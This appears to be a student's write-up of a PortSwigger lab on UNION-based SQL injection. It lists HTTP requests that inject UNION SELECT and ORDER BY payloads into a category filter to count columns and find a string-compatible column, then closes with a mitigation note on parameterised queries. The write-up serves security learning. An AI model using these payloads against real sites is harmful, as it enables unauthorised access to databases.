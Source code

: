 # SQL Injection - UNION Attack: Identify Column with String Data

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. 

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you **determine which columns are compatible with string data**.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Corporate+gifts HTTP/2
```

### 2. Modified the Request to Determine Column Count

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL-- HTTP/2
Response: HTTP/2 500 Internal Server Error
```

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL-- HTTP/2
Response: HTTP/2 500 Internal Server Error
```

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL-- HTTP/2
Response: HTTP/2 200 OK
```

![burpsuite response](./misc-images/04-1.png)

Confirmed the number of columns = 3, as response returned HTTP 200.

Alternative approach: Using `ORDER BY` can also determine the column count. An error will be displayed at `ORDER BY 4`.

```http
GET /filter?category=Accessories'+ORDER+BY+4-- HTTP/2
Response: HTTP/2 500 Internal Server Error
```

### 3. Identified Column Accepting String Output

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,'a',NULL-- HTTP/2
Response: HTTP/2 200 OK
```

Injected `'a'` is a visible test string and will appear on the page if the injection works.

![burpsuite response](./misc-images/04-2.png)

But, this did not solve the lab. The response included a hint: Make the database should retrieve the string 'xE5jkD'

### 4. Solved the Lab Using the Required Payload

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,'xE5jkD',NULL-- HTTP/2
```

![burpsuite response](./misc-images/04-3.png)

As expected, the response said "Congratulations you solved the lab!"

### 5. Forwarded the Final Payload

Forwarded the final payload and confirmed that the  injected string 'xE5jkD' was displayed on the webpage.

![portswigger webpage](./misc-images/04-5.png)

---

## Mitigation

Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

---

## Reflection

-Learned the second step of a UNION-based SQL injection: identifying the columns with string data using `UNION SELECT` query.

---

## Notes


